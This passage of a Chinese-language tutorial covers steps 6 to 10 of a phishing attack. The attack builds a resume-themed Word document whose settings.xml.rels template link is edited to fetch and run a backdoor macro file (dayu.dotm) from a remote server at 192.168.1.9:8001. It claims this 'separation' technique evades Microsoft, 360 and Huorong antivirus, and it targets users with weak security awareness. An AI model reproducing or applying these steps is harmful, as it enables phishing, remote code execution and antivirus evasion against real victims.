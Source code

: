 ![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcRI7wialbbR8Xjjn4K4N2hxAOlYMjicUZJUEZGu1UmXsTsjuxjP7cM7pQ/640?wx_fmt=png)

**6、上传后门宏**

将后门宏文件 dayu.dotm 上传到公网服务器中（这里用 kali 进行模拟）  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLc8dBqicicYYe7sSRIiacZ2uYBHeVicTbEcP41qn96OLmvwpvzxqicJzw44ZA/640?wx_fmt=png)

**7、新建 word 文档**

目前文档类型非常多，我已简历为主！这里创建一个简历模版保存到桌面即可！  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcNgpibmHbVLuc3pmiaA4jnTfvCtXTm8gRn6b4VAqjibG3hfGEKPUAtTEWA/640?wx_fmt=png)

**8、修改文件名**

修改文件名：docx 改为 zip 类型！！  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLc0pW3RIwcHHasxsfmibH1wuiafW7icNCObKYVjVZSe6Xib7U8JB5mGC0uMw/640?wx_fmt=png)

**9、修改宏内容**

将 zip 文件解压，进入 / word/_rels 目录下，打开 settings.xml.rels 宏文件，这段就是宏需要执行的代码…！  

```
file:///C:\Users\yujun\AppData\Roaming\Microsoft\Templates\精美简历，由%20MOO%20设计.dotx
```

‍

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcvMnmxxv7GE9zu8qIYtk0evxYk1rfsicLkHhd9NYaicqMSzqVnEmZXWoQ/640?wx_fmt=png)

将该段代码修改为以下内容，意思就是执行开启宏后，会执行访问下载服务器上的 dotm 宏文件并执行！！

```
http://192.168.1.9:8001/dayu.dotm
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcZoL5kkDmuKsKsXgX4qRncliaPRaP1p5hvJib5JVR1WGpkL4WibMdJe4Ow/640?wx_fmt=png)

然后将内容重新压缩后，在修改 zip 为 docx 类型，修改后可看到就是我的简历了！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcJLUkfxvRkibXLX2QQ0qvOby0KgqcsllFNENrZBf3yC9lTAqLPSsNADw/640?wx_fmt=png)

这里利用的是分离免杀的方法，里面的代码都是正常的，由于杀毒软件是静态查杀，所以无法查杀的！

**10、下载并执行**

可看到通过下载该简历文件，微软、360、火绒都是不查杀的！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcQz2cicCGTsVxGxmupicDVdvYSYiapJicibaSibCdansvNQGptvibSibSqJPpTg/640?wx_fmt=png)

出于好奇心，打开文档，提示：

```
该工程中的宏被禁止，请...........是否激活...
```

那么安全意识强的肯定是点 X，安全意识差的，点确定，都没关系！钓鱼嘛，主要钓鱼安全意识差，又不懂安全的人，社会太多太多了~~ 所以要加强安全意识啊！
